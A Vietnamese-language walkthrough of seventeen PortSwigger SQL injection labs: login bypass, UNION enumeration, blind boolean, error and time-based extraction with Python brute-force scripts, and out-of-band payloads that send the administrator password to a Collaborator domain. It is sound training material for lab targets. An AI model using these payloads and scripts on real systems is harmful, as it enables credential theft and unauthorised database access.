# SQL injection

## Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
>
> ```sql
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> ```
>
> To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

Truy cập vào lab, chúng ta thấy trang web cho phép xem tất cả các sản phẩm hoặc xem sản phẩm theo từng danh mục:



Bài lab yêu cầu chúng ta phải khiến cho ứng dụng hiển thị một hoặc nhiều sản phẩm chưa release.

Dựa vào câu truy vấn mà bài lab cung cấp, có thể hiểu rằng sản phẩm nào đã release thì released = 1, chúng ta cần xem cả những sản phầm chưa release nên cần bypass phần kiểm tra này.

Do vậy, nếu chúng ta thay đổi giá trị của tham số `category` thành `' or 1=1--` sẽ bỏ được phần `AND released = 1` khỏi câu truy vấn. Lúc này câu truy vấn mà ứng dụng thực thi sẽ trở thành:

```sql
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```

Bởi vì `1=1` luôn đúng nên câu truy vấn sẽ trả về tất cả các sản phẩm bao gồm cả những sản phẩm chưa release:



## Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

> This lab contains a SQL injection vulnerability in the login function.
>
> To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

Bên dưới là giao diện tại trang đăng nhập:



Bài lab yêu cầu chúng ta đăng nhập với user là `administrator` nhưng chúng ta không biết password.

Chúng ta có thể dự đoán server sẽ thực hiện câu truy vấn:

```sql
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'
```

Vậy chúng ta sẽ nhập username là `administrator'--` và password bất kì để câu truy vấn trở thành:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '<password>'
```

Từ đó, chúng ta đăng nhập thành công:



## Lab 3: [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
>
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

Truy cập vào lab, chúng ta xem sản phẩm theo danh mục Pets:



Bài lab yêu cầu chúng ta khiến cho câu truy vấn trả về thêm 1 hàng chứa các giá trị null nên có thể thử với payload `' UNION SELECT NULL--` ở tham số `category`.

Chúng ta nhận được lỗi:



Từ đó, chúng ta hiểu rằng câu truy vấn gốc lấy ra nhiều hơn 1 cột nên mới gây ra lỗi.

Vậy chúng ta tiếp tục thêm lần lượt giá trị null vào payload để kiểm tra và tới payload `' UNION SELECT NULL, NULL, NULL--` sẽ thành công:



## Lab 4: [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.
>
> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Truy cập vào lab, chúng ta sẽ làm tương tự như lab 3 để tìm số cột được trả về từ câu truy vấn:



Xác định được có 3 cột dữ liệu, tiếp đến cần tìm cột có loại dữ liệu phù hợp để chứa được chuỗi `'hJ2Xhz'` nên chúng ta thay lần lượt chuỗi đó vào từng `NULL` trong payload.

Thử thay `'hJ2Xhz'` vào `NULL` đầu tiên nhận được lỗi:



Vậy là cột 1 không trùng khớp loại dữ liệu. Giờ chúng ta thay chuỗi `'hJ2Xhz'` vào `NULL` thứ hai sẽ thành công:



## Lab 5: [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string.
>
> **Hint**
>
> On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
>
> There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

Truy cập vào lab, chúng ta có thể đọc các thông tin theo danh mục, ví dụ như Pets:


Bài lab yêu cầu chúng ta phải khiến cho ứng dụng trả về phiên bản của database.

Trước tiên, cần xem xét câu truy vấn ban đầu trả về bao nhiêu cột. Dựa vào hint, mỗi câu lệnh `SELECT` ở Oracle database phải chỉ định một bảng hợp lệ nên chúng ta sẽ tận dụng bảng `dual` và sử dụng payload `' UNION SELECT NULL FROM dual--` để kiểm tra.



Đã có lỗi xảy ra, như vậy là câu truy vấn gốc trả về nhiều hơn 1 cột. Chúng ta tiếp tục thêm giá trị null vào để kiểm tra và xác định được số cột là 2.



Tiếp theo, cần xem cột nào có thể chứa chuỗi, chúng ta dùng payload `' UNION SELECT 'hehe', NULL FROM dual--` thấy được cột 1 có thể nhận chuỗi.



Giờ có thể lấy database version bằng cách sử dụng payload `' UNION SELECT banner, NULL FROM v$version--`.



## Lab 6: [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

> This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string.

Bài lab này cũng yêu cầu chúng ta lấy được phiên bản của database.

Truy cập lab, chúng ta vào xem theo danh mục Gifts:



Trước tiên, chúng ta xác định được câu truy vấn gốc trả về 2 cột bằng cách sử dụng payload `' UNION SELECT NULL, NULL--+`:



Tiếp theo, với payload `' UNION SELECT 'hehe', NULL--+` xác định được cột 1 có thể chứa chuỗi:



Và cuối cùng, chúng ta sẽ sử dụng payload `' UNION SELECT @@version, NULL--+` để xem được phiên bản của database:



## Lab 7: [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the `administrator` user.

Truy cập lab, chúng ta vào xem theo danh mục Pets:



Tương tự như mấy lab trước, biết được câu truy vấn trả về 2 cột và cột 1 có thể chứa chuỗi nên chúng ta sử dụng payload `' UNION SELECT table_name, NULL FROM information_schema.tables--` để xem được danh sách các bảng của database:



Thấy có bảng `users_jipqgs`, chúng ta liệt kê các cột của bảng này với payload `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_jipqgs'--`.

Chúng ta sẽ thấy 2 cột là `password_uaaenk` và `username_unitwp`:



Tiếp đến, đọc nội dung của 2 cột đó với payload `' UNION SELECT password_uaaenk, username_unitwp FROM users_jipqgs--` để lấy được thông tin của `administrator`:



Và cuối cùng đăng nhập thành công với `administrator:fvsh52kiu4l0i059vzsp`.

## Lab 8: [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the `administrator` user.
>
> **Hint**
>
> On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
>
> There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

Tương tự như lab trước nhưng do ứng dụng sử dụng Oracle database nên payload có chút khác biệt.

Chúng ta biết được số cột mà câu truy vấn trả về là 2 nên sử dụng payload `' UNION SELECT table_name, NULL FROM all_tables--` để liệt kê các bảng của database:



Tiếp theo, để liệt kê các cột của bảng `USERS_XAFIWJ`, chúng ta dùng payload `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_XAFIWJ'--`.

Có 2 cột là `PASSWORD_OSXRXI` và `USERNAME_ORDSTE`:



Chúng ta đọc nội dung của 2 cột đó với payload `' UNION SELECT PASSWORD_OSXRXI, USERNAME_ORDSTE FROM USERS_XAFIWJ--` thấy được thông tin của `administrator`:



Vậy chúng ta đăng nhập thành công với `administrator:cf56hm9edw7pjhds65t3`.

## Lab 9: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
> The database contains a different table called users, with columns called username and password.
>
> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Chúng ta sử dụng payload `' UNION SELECT table_name, NULL FROM information_schema.tables--` để liệt kê các bảng của database.

Chúng ta sẽ thấy có bảng `users`:


Tiếp theo, để liệt kê các cột của bảng `users`, chúng ta dùng payload `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--`.

Thấy được cột `password` và cột `username` trong bảng này:



Chúng ta sẽ đọc 2 cột đó với payload `' UNION SELECT password, username FROM users--` để thấy được thông tin của `administrator`:



Và cuối cùng đăng nhập thành công với `administrator:xv5cokudyrgg1jr7jvgk`.

## Lab 10: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The database contains a different table called `users`, with columns called `username` and `password`.
>
> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Truy cập lab, chúng ta vào xem theo danh mục Pets.

Sử dụng payload `' UNION SELECT NULL, NULL--` xác định được câu truy vấn trả về 2 cột:


Tiếp theo cần xác định cột nào có thể chứa chuỗi. Chúng ta thay lần lượt `'hehe'` vào từng `NULL` trong payload thì xác định được cột 2 có thể chứa chuỗi:



Giờ chúng ta sẽ đọc nội dung của cột `username` và `password` trong bảng `users`. Nhưng chỉ có một cột có thể chứa chuỗi nên chúng ta có thể dùng toán tử `||` để nối các giá trị lại với nhau.

Vậy có payload `' UNION SELECT NULL, username || ':' || password FROM users--`:



Chúng ta sẽ đăng nhập thành công với `administrator:mq2r88abp2y5z7y6xty0`.

## Lab 11: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
>
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
>
> To solve the lab, log in as the administrator user.
>
> **Hint**
>
> You can assume that the password only contains lowercase, alphanumeric characters.

Theo như mô tả của bài lab, ứng dụng thực hiện câu truy vấn có chứa giá trị của cookie. Nhưng kết quả của câu truy vấn đó lại không được trả về và chúng ta cũng không thấy được bất kì thông báo lỗi nào.

Tuy nhiên, ứng dụng lại hiển thị một dòng chữ `Welcome back!` khi câu truy vấn trả về hàng nào đó.



Chúng ta thử đổi giá trị của cookie `TrackingId` thành `' OR 1=1--` thì dòng chữ đó vẫn xuất hiện:



Nếu tiếp tục thử với payload `' OR 1=2--` thì không còn dòng chữ đó nữa:



Như vậy, chúng ta có thể khai thác Boolean-based SQLi, dựa vào sự xuất hiện của dòng chữ `Welcome back!` để kiểm tra xem điều kiện chúng ta thêm vào câu truy vấn là đúng hay sai.

Trước tiên, để tìm được độ dài của password, chúng ta sẽ sử dụng Burp Intruder.

Thực hiện đổi giá trị của cookie `TrackingId` thành payload sau:

```sql
' OR (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)=§1§)='administrator
```

Trong payload trên, chúng ta sử dụng subquery để lấy ra `username` từ bảng `users` với điều kiện `username` phải là `administrator` và độ dài của `password` là một số nào đó chúng ta cần brute-force.

Trong trường hợp dòng chữ `Welcome back!` được trả về tức là điều kiện `LENGTH(password)=§1§` đã đúng.



Sau khi chạy Burp Intruder, chúng ta xác định được độ dài của password là 20:



Với độ dài đã biết của password, chúng ta sẽ so sánh lần lượt từng ký tự trong password của `administrator`.

Ví dụ payload dưới sẽ so sánh ký tự thứ 2 trong password với ký tự `a`, nếu đúng sẽ có dòng chữ `Welcome back!` trong response.

```sql
' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1)='a
```

Để khai thác nhanh chóng, chúng ta có thể viết một script Python như sau:

```python
import requests
import string

url = "https://0add0018045a73ad8068941d00c80074.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId":f"' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1)='{j}"}

        r = requests.get(url, cookies=cookie)
        if "Welcome back!" in r.text:
            password += j
            break

print(f"administrator:{password}") # administrator:yeuo9hasc1hmsq2rxltz

```

## Lab 12: [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.
>
> **Hint**
>
> This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

Ở bài lab này, nếu chúng ta thử thêm kí tự `'` vào giá trị của cookie `TrackingId` thì thấy xuất hiện lỗi:



Thêm tiếp kí tự `'` vào, chúng ta thấy không còn lỗi nữa:



Như vậy, chúng ta có thể tìm được password dựa vào thông báo lỗi này.

Thực hiện đổi giá trị của cookie `TrackingId` thành payload bên dưới để brute-force độ dài của password sử dụng Burp Intruder.

```sql
' || (SELECT CASE WHEN LENGTH(password)=§1§ THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '
```

Ở payload trên, chúng ta sử dụng subquery để lấy chuỗi rỗng khi độ dài password của người dùng `administrator` bằng một số nào đó, ngược lại sẽ tận dụng hàm `TO_CHAR(1/0)` để gây lỗi.



Chạy Intruder, chúng ta xác định được độ dài của password là 20:



Tiếp theo, chúng ta cần lấy lần lượt từng kí tự trong password rồi so sánh với một kí tự để kiểm tra, nếu không có lỗi thì chúng ta sẽ lấy kí tự đó.

Chúng ta có thể viết script Python sau để nhanh chóng tìm được password.

```python
import requests
import string

url = "https://0a4000a50496098781107f6d00a500f7.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN SUBSTR(password, {i}, 1)='{j}' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '"}
        r = requests.get(url, cookies=cookie)

        if r.status_code == 200:
            password += j
            break

print(f"administrator:{password}") # administrator:anvjib2zbhzn8fb0sbnc

```

## Lab 13: [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

> This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
>
> The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Chúng ta thử thêm dấu `'` vào giá trị của cookie `TrackingId` thì thấy lỗi xuất hiện:



Từ lỗi trên, chúng ta có thể thấy được toàn bộ câu truy vấn.

Tiếp theo, chúng ta sẽ tận dụng hàm `CAST()` để tạo ra lỗi khi chuyển đổi loại dữ liệu từ `string` sang `int`. Chúng ta thay giá trị của cookie `TrackingId` thành payload `' AND CAST((SELECT username FROM users LIMIT 1) AS int)=1--`.

Gửi request đi, chúng ta nhận thấy người dùng `administrator` nằm ở hàng đầu tiên trong bảng `users`:



Như vậy, chỉ cần đổi `username` thành `password` trong payload là chúng ta sẽ lấy được password:


Cuối cùng, đăng nhập với `administrator:2qrqz8cwynn52caocn38` để giải thành công bài lab.

## Lab 14: [Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Bài lab này yêu cầu chúng ta thực hiện khai thác SQL injection để khiến cho response bị trễ 10 giây.

Chúng ta chỉ cần thay đổi giá trị của cookie `TrackingId` thành `' || pg_sleep(10)--` là thành công:



## Lab 15: [Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Trước tiên, chúng ta đổi giá trị của cookie `TrackingId` thành payload `' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END)--` và gửi request thì thấy response sau khoảng 2 giây:



Đổi điều kiện `1=1` thành `1=2` trong payload, chúng ta sẽ thấy response luôn:



Vậy chúng ta có thể trích xuất thông tin dựa vào thời gian phản hồi của server.

Tiếp theo, sử dụng payload `' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)=§1§) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--` để thực hiện brute-force độ dài của password sử dụng Burp Intruder.

Ở payload trên, nếu người dùng là `administrator` và `password` của người dùng này đúng bằng một số nào đó thì chúng ta sẽ nhận về response sau khoảng 2 giây.



Sau khi chạy Intruder, chúng ta xác định được độ dài của password là 20:



Từ độ dài của password, chúng ta có thể viết script Python sau để tìm được chính xác password.

```python
import requests
import string

url = "https://0a7600f20468356580e6ccf4002e00d3.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, {i}, 1)='{j}') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--"}
        r = requests.get(url, cookies=cookie)

        if r.elapsed.total_seconds() > 2:
            password += j
            break

print(f"administrator:{password}")

```

Cuối cùng, chúng ta sẽ giải được bài lab bằng cách đăng nhập với `administrator:3lf409hp0t5cfg0gj3d9`.

## Lab 16: [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Bài lab này yêu cầu chúng ta khiến database thực hiện DNS lookup tới Burp Collaborator.

Chúng ta sẽ đổi giá trị của cookie `TrackingId` thành payload bên dưới, chú ý encode URL rồi gửi request.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://4v0ombmznbre7v78btp19c635ublzcn1.oastify.com/"> %remote;]>'),'/l') FROM dual--
```



Sau đó, có thể quan sát thấy kết quả bên tab Collaborator:



## Lab 17: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Bài lab yêu cầu chúng ta đăng nhập vào ứng dụng với user là `administrator`.

Trước tiên, để lấy được password, chúng ta có thể đổi giá trị của cookie `TrackingId` thành payload bên dưới, chú ý domain sẽ khác.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mlb6ctchdthwxdxq1bfjzuwlvc16pwdl.oastify.com/"> %remote;]>'),'/l') FROM dual--
```



Đợi chút sẽ thấy được password nằm ở subdomain trong tab Collaborator:



Vậy chúng ta giải thành công bài lab bằng cách đăng nhập với `administrator:ljnfmtsp9sb2gaugtwce`.
